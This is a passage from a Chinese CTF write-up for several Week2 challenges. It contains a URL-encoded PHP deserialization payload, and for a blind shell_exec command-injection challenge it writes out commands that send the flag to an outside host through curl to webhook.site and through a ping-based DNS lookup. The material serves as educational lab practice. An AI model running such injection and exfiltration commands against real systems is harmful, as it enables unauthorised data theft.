```
//O%3A3%3A%22web%22%3A2%3A%7Bs%3A2%3A%22kw%22%3BO%3A2%3A%22re%22%3A1%3A%7Bs%3A4%3A%22chu0%22%3BO%3A3%3A%22pwn%22%3A2%3A%7Bs%3A4%3A%22dusk%22%3BN%3Bs%3A4%3A%22over%22%3BO%3A4%3A%22Misc%22%3A2%3A%7Bs%3A7%3A%22nothing%22%3BN%3Bs%3A4%3A%22flag%22%3BN%3B%7D%7D%7Ds%3A2%3A%22dt%22%3BN%3B%7D

```

得到flag

### **[Week2] 一起吃豆豆**

我们在游戏结束那里发现一串base64编码，解码得到flag

![image-20240822171907195](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408221719307.png)

### **[Week2] 你听不到我的声音**

```
<?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']);
```

shell_exec 不会将执行结果直接输出

- 我们使用重定向到文件

我们可以用流重定向符号来将输出内容重定向到文件中, 在通过浏览器进行下载

```
cmd=cat ../../../flag > 1.txt
```

- 通过 `curl` 外带

  我们可以通过 https://webhook.site/ 来进行数据外带, 我们可以拿到这样一个链接

```
https://webhook.site/b69846b7-ea9a-42f6-8e7a-04f80fdf35eb
```

此时这个路径下的所有请求都会被记录

于是我们可以通过shell指令:

```HTTP
curl https://webhook.site/b69846b7-ea9a-42f6-8e7a-04f80fdf35eb/`cat /flag | base64`
```

![image-20240831190333312](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408311903497.png)

- Dnslog 外带

Dnslog 的话可以使用国内的 `dnslog.cn` 但是我个人觉得不稳定

也可用在刚刚那里的 webhook 下面有个 dnshook

此时我们可以用 ping 外带

```HTTP
ping `cat /flag | base64`.xxxxxxx.dnshook.site
```

